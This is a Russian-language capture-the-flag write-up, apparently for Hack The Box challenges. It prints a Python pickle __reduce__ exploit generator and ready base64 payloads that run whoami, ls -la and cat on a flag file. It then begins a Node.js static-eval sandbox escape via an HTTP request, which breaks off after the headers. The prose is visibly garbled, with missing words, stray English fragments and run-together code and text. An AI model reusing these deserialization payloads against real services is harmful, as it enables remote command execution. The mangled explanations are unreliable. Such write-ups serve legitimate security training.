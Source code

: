 есть скрытый параметр, передаваемый при вызове pickle.dumps() 

import subprocess
import pickle
from base64 import b64encode

class anti_pickle_serum(object):
    def __reduce__(self):
        return YourMethod, ("Your Commands")

if __name__ == '__main__':
    pickleObject = pickle.dumps({"serum": anti_pickle_serum()}, protocol=0)
    print(pickleObject)
    print(b64encode(pickleObject))

первый вызывает whoami и его код эксплуатации KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUyd3aG9hbWknCnA0CmF0cDUKUnA2CnMu

затем на втором шаге в использовании ls -la мы можем использовать код с the, и у нас есть код эксплуатации как .subprocess.check_output()[ "ls","-la"]KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydscycKcDQKYVMnLWxhJwpwNQphdHA2ClJwNwpzLg==

Далее можем использовать тот же метод с аргументами и получить флаг с [ "cat", "flag_wIp1b" ]KGRwMApTJ3NlcnVtJwpwMQpjc3VicHJvY2VzcwpjaGVja19vdXRwdXQKcDIKKChscDMKUydjYXQnCnA0CmFTJ2ZsYWdfd0lwMWInCnA1CmF0cDYKUnA3CnMu

Далее получаем на экране флаг HTB{g00d_j0b_m0rty... n0w_I_h4v3_to_g0_to_f4m1ly_th3r4py..}

10. Мы исправили математику в работе нашего учителя физики, и теперь он подводит нас назло за то, что мы выставили его дураком на исследовательском симпозиуме университета, теперь мы не можем закончить школу, если не сможем что-то с этим сделать...

Мы видим, что создается маршрут, доступный через POST-запросы, при отправке этого запроса становится понятно, 
что в разделе запроса должна быть объявлена переменная student. Если имя не объявлено, API возвращает информацию что используется либо встроенная формула, либо та, которая указана в req.body. Отсюда вызываются две подпрограммы, 
одна возвращает true или вторая возвращает false, мы получаем сообщение .StudentHelperNode.js/api/calculatereq.bodySpecify Student Name [0.20 * assignment + 0.25 * exam + 0.25 * paper] IsDumb()hasPassed()NOOOOOOPE
Смотрим файл static-evalpackage.json
Выбираем какие есть способы эксплуатации
Мы можем видеть в Node Package, что static-eval — это «», и это может быть вариантом эксплуатации
Просматриваем способы эксплоитов и один из вариантов эксплоитов, это где можно получить доступ к конструкторам функций
При создании нашего запроса JSON, если API даёт доступ на все вызовы в качестве ответа, мы можем вызвать флаг таким образом:
В ретрансляторе запускаем  

POST /api/calculate HTTP/1.1
Host: 165.227.225.205:32398
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: <http://165.227.225.205:32398/>
Content-Type: application/json
Origin: <http://165.227.225.205:32398>
Content-Length: 196
Connection: close
